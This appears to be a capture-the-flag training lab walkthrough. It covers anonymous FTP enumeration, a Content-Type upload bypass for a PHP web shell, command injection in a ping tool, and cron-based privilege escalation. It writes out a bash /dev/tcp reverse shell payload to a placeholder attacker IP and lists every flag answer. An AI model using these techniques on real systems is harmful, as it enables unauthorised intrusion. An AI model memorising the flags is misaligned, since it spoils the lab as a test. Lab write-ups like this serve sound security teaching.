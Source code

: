 ## Hard Lab - Complete Walkthrough

This document outlines the intended solution path for the Hard Lab.

### 1. Enumeration & Flag 1

* **Action:** An `nmap` scan reveals anonymous FTP is enabled. Log in and download `creds.txt` and `flag1.txt`.
* **Flag 1:** `OmahTIAcademy{hard_ftp_enum_start}`
* **Credentials:** The `creds.txt` file contains the credentials `webdeveloper:ComplexPass2025!`.

### 2. File Upload Bypass & Flag 2

* **Action:** Log into the "SocialGram" website with the found credentials. Navigate to the profile/settings page.
* **Action:** Attempt to upload a PHP shell. The upload will be rejected. The vulnerability requires bypassing a Content-Type filter.
* **Bypass:** Use Burp Suite to intercept the upload request. Change the `Content-Type` of the PHP file to `image/jpeg` and forward the request.
* **Result:** The PHP shell is successfully uploaded.
* **Action:** Get a web shell and explore the `/var/www/html/uploads/avatars` directory.
* **Flag 2:** Reading `flag2.txt` reveals `OmahTIAcademy{content_type_bypass}`.
* **Clue:** The `clue.txt` file points to the existence of a `/tools/` directory on the web server.

### 3. Command Injection & Flag 3

* **Action:** Navigate to the hidden tool page at `http://<TARGET_IP>/tools/`.
* **Action:** Identify the command injection vulnerability in the ping utility.
* **Exploitation:** Use the vulnerability to get a reverse shell.
    ```bash
    # On attacker machine, start a listener
    nc -lvnp 4444

    # In the ping tool, inject a reverse shell payload
    8.8.8.8; bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"
    ```
* **Result:** You will receive a shell as the `www-data` user.
* **Flag 3:** The flag is located at `/var/www/flag3.txt`.
    ```bash
    cat /var/www/flag3.txt
    ```

### 4. Privilege Escalation & Flag 4

* **Action:** From the `www-data` shell, enumerate the system. `linpeas.sh` will highlight a world-writable cron job script at `/usr/local/bin/backup.sh`.
* **Exploitation:** Overwrite the script with another reverse shell payload and start a new listener on port 5555.
* **Result:** Within one minute, you will receive a **root shell**.
* **Flag 4:** `cat /root/flag4.txt`

### 5. Post-Exploitation & Flag 5

* **Action:** As root, perform post-exploitation enumeration to find the final hidden flag.
* **Command:**
    ```bash
    find /opt -name "flag5.txt"
    ```
* **Result:** The command will find the flag at `/opt/deep/secret/folder/flag5.txt`.
* **Flag 5:** `cat /opt/deep/secret/folder/flag5.txt`
